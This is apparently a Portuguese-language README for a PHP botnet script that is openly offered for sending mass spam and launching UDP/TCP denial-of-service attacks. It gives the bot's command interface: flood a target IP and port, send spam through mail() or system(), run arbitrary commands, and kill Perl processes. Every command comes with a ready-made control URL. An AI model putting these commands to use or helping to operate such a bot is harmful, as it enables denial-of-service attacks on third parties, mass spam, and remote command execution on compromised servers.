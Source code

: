 # PHP Bot (DDoS/Spam)
Bot em PHP utilizado para enviar emails em massa e realizar ataques DDoS (Negação de Serviço).


Functions...
 DDos, Spam (Perl e PHP), Run command, Kill Perl running.

Functions details...
 DDoS:
   command = ddos.
   flag = Attack method: udp, tcp.
   data = IP:PORT.
   
   phpBot.php?hash=admin&command=ddos&flag=udp&data=111.111.111.111:22
   
 Spam:
   command = spam, phpspam (spam via mail() function).
   flag = 1 é padrão para spam normal. 
          Para phpspam, 1 = Usa função system() para rodar enviador, 
          2 = Utiliza todas as funções (Envia repetido).
   data = null (default).
   
   POST data:
    maillist=...&subject=...&from=...&message=...
     
   phpBot.php?hash=admin&command=spam&flag=1&data=null
   
 Run file:
   command = run.
   flag = 1 (default).
   data = Command to run
 
   phpBot.php?hash=admin&command=run&flag=1&data=dir.exe
   
 Kill dependencies:  
   command = kill.
   flag = 1 (default).
   data = null (default)
 
   phpBot.php?hash=admin&command=kill&flag=1&data=null

